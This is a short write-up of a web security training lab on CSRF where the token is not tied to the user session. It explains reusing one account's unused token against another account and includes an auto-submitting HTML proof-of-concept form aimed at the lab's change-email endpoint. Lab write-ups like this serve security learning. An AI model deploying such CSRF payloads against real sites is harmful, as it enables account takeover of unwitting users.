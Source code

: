 # Practitioner Lab 80 : CSRF where token is not tied to user session

---

This lab's email change functionality is vulnerable to CSRF. It uses tokens to try to prevent CSRF attacks, but they aren't integrated into the site's session handling system.

To solve the lab, use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address.

You have two accounts on the application that you can use to help design your attack. The credentials are as follows:

- `wiener:peter`
- `carlos:montoya`

if the user is logged in then you can use their CSRF token to change the emai;l

In this case I just used the CSRF Token of the logged in account wiener to change Carlos’ email

but the CSRF token can’t have already been used. This is because they are only used once.

Because of this, I captured the request and then used that CSRF token to exploit the password change.

```
<html>
<!-- CSRF PoC - generated by Burp Suite Professional -->
<body>
<form action="[https://0a20008a03a39b2b814d57fd0079009a.web-security-academy.net/my-account/change-email](https://0a20008a03a39b2b814d57fd0079009a.web-security-academy.net/my-account/change-email)" method="POST">
<input type="hidden" name="email" value="test2@me" />
<input type="hidden" name="csrf" value="YkENKPliLaQyq3Ib2smwENXj4TWSbgsY" />
<input type="submit" value="Submit request" />
</form>
<script>
history.pushState('', '', '/');
document.forms[0].submit();
</script>
</body>
</html>
```

![Untitled](Practitioner%20Lab%2080%20CSRF%20where%20token%20is%20not%20tied%20t%20ae2136835b294d1e8b02d5c9a78971fe/Untitled.png)